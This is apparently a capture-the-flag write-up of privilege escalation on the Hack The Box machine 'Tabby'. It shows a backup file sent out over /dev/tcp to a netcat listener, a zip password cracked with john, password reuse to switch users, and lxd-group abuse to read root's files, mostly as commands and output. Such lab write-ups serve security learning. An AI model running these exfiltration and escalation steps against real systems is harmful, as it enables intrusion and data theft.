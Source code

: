 # 15 - PrivEsc


# Files directory
```bash
tomcat@tabby:/var/www/html/files$ ls
16162020_backup.zip  archive  revoked_certs  statement
```


# File Transfer
```bash
┌─[user@parrot]─[10.10.14.14]─[~/htb/tabby]
└──╼ $ nc -lvp 9001 > backup.zip
listening on [any] 9001 ...


tomcat@tabby:/tmp$ cat 16162020_backup.zip  > /dev/tcp/10.10.14.14/9001
```


# Backup File
```
┌─[user@parrot]─[10.10.14.14]─[~/htb/tabby]
└──╼ $ nc -lvp 9001 > backup.zip
listening on [any] 9001 ...
connect to [10.10.14.14] from megahosting.htb [10.10.10.194] 53834
┌─[user@parrot]─[10.10.14.14]─[~/htb/tabby]
└──╼ $ ls
backup.zip
```

# Backup File is encrypted
```bash
┌─[user@parrot]─[10.10.14.14]─[~/htb/tabby]
└──╼ $ unzip backup.zip 
Archive:  backup.zip
   creating: var/www/html/assets/
[backup.zip] var/www/html/favicon.ico password: 
```


# zip2john
```bash
┌─[user@parrot]─[10.10.14.14]─[~/htb/tabby]
└──╼ $ zip2john backup.zip  > hash
```

To crack zip we need a hash, zip2john extracts the hash from the zip file.

# Cracked
```bash
┌─[user@parrot]─[10.10.14.14]─[~/htb/tabby]
└──╼ $ john hash -w=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
admin@it         (backup.zip)
1g 0:00:00:16 DONE (2021-08-21 13:18) 0.06242g/s 646615p/s 646615c/s 646615C/s adnc153..adilizinha
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

The backup itself doesn't have anything interesting. 


# Password reuse
```
tomcat@tabby:/tmp$ su - ash
Password: 
ash@tabby:~$ 
```



# lxd group
```bash
ash@tabby:/$ id
uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)
```

Ash is a member of the lxd group. 

Follow the instruction on https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation


# root.txt
```bash
ash@tabby:/tmp/exploit$ lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
ash@tabby:/tmp/exploit$ lxc start privesc
ash@tabby:/tmp/exploit$ lxc exec privesc /bin/sh
~ # id
uid=0(root) gid=0(root)
~ # cd /mnt/root/root/
/mnt/root/root # ls
root.txt  snap
```
